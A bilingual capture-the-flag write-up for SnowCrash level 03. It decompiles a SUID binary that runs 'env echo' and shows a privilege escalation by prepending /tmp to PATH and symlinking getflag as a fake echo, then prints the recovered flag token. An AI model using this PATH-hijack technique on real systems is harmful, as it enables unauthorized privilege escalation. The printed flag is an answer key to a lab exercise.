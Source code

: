 # Flag 03

## Tools Used:

* Basic Unix commands (`ls`, `ln`, `export`)
* Reverse engineering tools (Ghidra or GDB)

## Process:

Upon logging in as `level03`, listing the directory contents reveals an executable file:

```bash
level03@SnowCrash:~$ /bin/ls -la
```

Output:

```
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

Running the executable:

```bash
level03@SnowCrash:~$ ./level03 
Exploit me
```

Decompiling the binary (with **Ghidra** or **GDB**) gives the following code:

```c
int main(int argc,char **argv,char **envp)
{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}
```

### Key observations:

1. The file is owned by `flag03` and has **SUID** permissions, meaning the program runs with `flag03`'s privileges.
2. The program executes `/usr/bin/env echo Exploit me`, which can be exploited.

### Exploitation:

We can manipulate the `PATH` environment variable so that a custom version of `echo` is executed instead of the system's `echo`. Here's how:

1. Add `/tmp` to the beginning of the `PATH`:

```bash
export PATH=/tmp:$PATH
```

2. Create a symbolic link in `/tmp` pointing to `/bin/getflag` but name it `echo`:

```bash
ln -s /bin/getflag /tmp/echo
```

3. Run the vulnerable executable:

```bash
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

---

# Flag 03

## Herramientas Utilizadas:

* Comandos básicos de Unix (`ls`, `ln`, `export`)
* Herramientas de ingeniería inversa (Ghidra o GDB)

## Proceso:

Al iniciar sesión como `level03` y listar los archivos del directorio se encuentra un ejecutable:

```bash
level03@SnowCrash:~$ /bin/ls -la
```

Resultado:

```
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

Al ejecutar el programa:

```bash
level03@SnowCrash:~$ ./level03 
Exploit me
```

Descompilando el binario (usando **Ghidra** o **GDB**) obtenemos el siguiente código:

```c
int main(int argc,char **argv,char **envp)
{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}
```

### Observaciones clave:

1. El archivo pertenece a `flag03` y tiene permisos **SUID**, lo que significa que se ejecuta con los privilegios de `flag03`.
2. El programa ejecuta `/usr/bin/env echo Exploit me`, lo que se puede aprovechar.

### Explotación:

Podemos manipular la variable de entorno `PATH` para que un archivo `echo` falso sea ejecutado en lugar del real. Los pasos son:

1. Agregar `/tmp` al principio de `PATH`:

```bash
export PATH=/tmp:$PATH
```

2. Crear un enlace simbólico en `/tmp` apuntando a `/bin/getflag` y nombrarlo `echo`:

```bash
ln -s /bin/getflag /tmp/echo
```

3. Ejecutar el binario vulnerable:

```bash
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

---

## Scripts Used:

None

## Flag:

```
qi0maab88jeaj46qoumi7maus
```